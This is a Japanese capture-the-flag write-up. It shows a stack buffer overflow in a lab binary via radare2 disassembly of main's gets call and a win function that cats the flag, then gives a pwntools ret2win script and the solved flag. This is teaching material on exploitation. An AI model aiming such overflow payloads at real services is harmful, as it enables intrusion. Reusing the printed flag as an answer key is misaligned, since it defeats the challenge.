 # stuck writeup

## 問題文

```txt
I'm full stuck engineer.

nc 203.0.113.0 4000
```

## about

stuck overflowによってmainのリターンアドレスを書き換える問題です．

## writeup

radare2で見ると，`afl`の結果から`win`関数が定義されている事がわかり，その内容から，`win`を呼び出すことでflagが読める事に気付けます．

```txt
[0x004010f0]> afl|grep win
0x004011d6    1 49           sym.win
```

```txt
[0x004010f0]> pdf @sym.win
┌ 49: sym.win ();
│           0x004011d6      f30f1efa       endbr64
│           0x004011da      55             push rbp
│           0x004011db      4889e5         mov rbp, rsp
│           0x004011de      488d15230e00.  lea rdx, str.flag.txt       ; 0x402008 ; "flag.txt"
│           0x004011e5      488d35250e00.  lea rsi, [0x00402011]       ; "cat"
│           0x004011ec      488d3d220e00.  lea rdi, str.bin_cat        ; 0x402015 ; "/bin/cat"
│           0x004011f3      b800000000     mov eax, 0
│           0x004011f8      e8e3feffff     call sym.imp.execl
│           0x004011fd      bf00000000     mov edi, 0                  ; int status
└           0x00401202      e8c9feffff     call sym.imp.exit           ; void exit(int status)
```

`main`関数を読むと，`gets`の引数が`rbp-0x70`にあり，スタックフレームのサイズと等しい事がわかります．

```txt
[0x004010f0]> pdf @main
            ; DATA XREF from entry0 @ 0x401111
┌ 77: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x70
│           0x00401207      f30f1efa       endbr64
│           0x0040120b      55             push rbp
│           0x0040120c      4889e5         mov rbp, rsp
│           0x0040120f      4883ec70       sub rsp, 0x70
│           0x00401213      488d3d040e00.  lea rdi, str.What_s_your_name ; 0x40201e ; "What's your name?\n> " ; const char *format
│           0x0040121a      b800000000     mov eax, 0
│           0x0040121f      e86cfeffff     call sym.imp.printf         ; int printf(const char *format)
│           0x00401224      488d4590       lea rax, [s]
│           0x00401228      4889c7         mov rdi, rax                ; char *s
│           0x0040122b      b800000000     mov eax, 0
│           0x00401230      e87bfeffff     call sym.imp.gets           ; char *gets(char *s)
```

つまり，`gets`に0x78バイトのデータと適切(リトルエンディアン，64bit)に加工した`win`関数のアドレスを送るとflagが読めます．

```python3
#!/usr/bin/env python3
from pwn import *
binfile = './chall'
e = ELF(binfile)
context.binary = binfile

io = remote('203.0.113.0', 4000)

payload = b'a' * 0x78 + pack(e.sym['win'])

io.sendline(payload)
io.interactive()
```

## flag

`ISCCTF{Y0u_kn0w_5t4ck_0v3rfl0w}`
